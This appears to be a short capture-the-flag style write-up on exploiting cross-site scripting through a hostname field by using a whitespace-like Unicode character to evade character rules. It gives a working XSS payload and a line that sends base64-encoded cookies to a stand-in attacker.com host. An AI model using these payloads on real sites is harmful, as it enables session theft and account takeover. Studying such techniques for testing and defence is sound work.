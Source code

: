 <img src="https://i.imgur.com/nwsOzaO.png">

## Some RFC's for HostName:

* Should not contain space
* No matter, Upper case or Lower case, hostname will automatically converted to lowercase by the browser
* Here Some chars that Break the hostname 
    ```
    ? / \ # @ 
    ```

## Exploit IDEA:

* We need a Payload without space and the without the above chars. 
* UrlEncoding the `white space` doesn't work.
* Unicodes are Allowed in Hostnames
* We Need to find a Unicode Char that Act like a white space, So we can Use that unicode as space to Bypass the RFC rules.

## Harmless XSS:

* After 20 Min of Research, I came across a Blog with this payload. 

>`<svg%0Conload=alert()>`

<img src="https://i.imgur.com/iNsXZsf.png">

---

## Weaponizing XSS:

* So, Now We have a XSS. 
* My First Idea was to use btoa(base64) to Encode the Cookies and Redirect the Bot to attacker server with the Cookies are path. (`onload=window.location = 'http://attacker.com/?'+btoa(document.cookie)`)
* As i Mentioned Above, `Upper case or Lower case, hostname will automatically converted to lowercase by the browser`

* So, Now the the Encoded Base64 cookie will be automatically converted to Lower Case. Usually Base64 is a Mix of Both Upper and Lower Case letters

---
<br>

<img src="https://i.imgur.com/Mp5MX5A.png">

* If You Look Closer to The Above Image, the Payload is
`alert('AAABBBCCC')` . But the Browser Automatically Converted the upper case to lowercase. bcoz, THIS IS HOSTNAME. lol
---
